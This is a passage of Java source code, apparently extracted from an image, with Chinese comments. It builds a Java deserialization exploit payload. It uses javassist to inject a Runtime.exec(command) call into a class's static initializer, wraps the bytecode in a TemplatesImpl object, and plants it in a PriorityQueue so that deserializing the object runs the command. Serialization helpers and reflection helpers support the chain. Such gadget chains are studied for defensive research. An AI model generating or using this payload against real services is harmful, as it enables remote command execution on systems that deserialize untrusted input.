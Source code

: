   ```java

        //把我们的Template 放到 queue的array中去,这样就可以被 newTransformer调用到
        final Object[] queueArray = (Object[]) getFieldValue(queue, "queue");
        queueArray[0] = template;
        queueArray[1] = 1;

        return queue;
    }

    public byte[] serialize(final Object obj) throws IOException {
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(out);
        objOut.writeObject(obj);
        return out.toByteArray();
    }

    public Object deserialize(final byte[] serialized) throws IOException, ClassNotFoundException {
        ByteArrayInputStream in = new ByteArrayInputStream(serialized);
        ObjectInputStream objIn = new ObjectInputStream(in);
        return objIn.readObject();
    }

    public static class PlayLoad implements Serializable {

    }

    public Object createTemplate(String command) throws Exception {

        //利用javassist 来获取和操作字节码
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(PlayLoad.class));
        CtClass clazz = pool.get(PlayLoad.class.getName());

        //利用javassist来给目标类动态构建一个指定的构造函数
        String cmd = "java.lang.Runtime.getRuntime().exec(\"" + command.replaceAll("\\\\", "\\\\\\\\").replaceAll("\"", "\\\"") + "\");";
        clazz.makeClassInitializer().insertAfter(cmd);

        //设置该类的超类为 AbstractTranslet
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass superC = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superC);

        //获取字节码
        byte[] playLoadByteCode = clazz.toBytecode();

        //设置构建 template
        Object template = TemplatesImpl.class.newInstance();
        setFieldValue(template, "_bytecodes", new byte[][]{playLoadByteCode});
        setFieldValue(template, "_name", "lujianbo");
        setFieldValue(template, "_tfactory", TransformerFactoryImpl.class.newInstance());

        return template;
    }

    public Field getField(final Class<?> clazz, final String fieldName) throws Exception {
        Field field = clazz.getDeclaredField(fieldName);
        if (field != null)
            field.setAccessible(true);
        else if (clazz.getSuperclass() != null)
            field = getField(clazz.getSuperclass(), fieldName);
        return field;
    }
  ```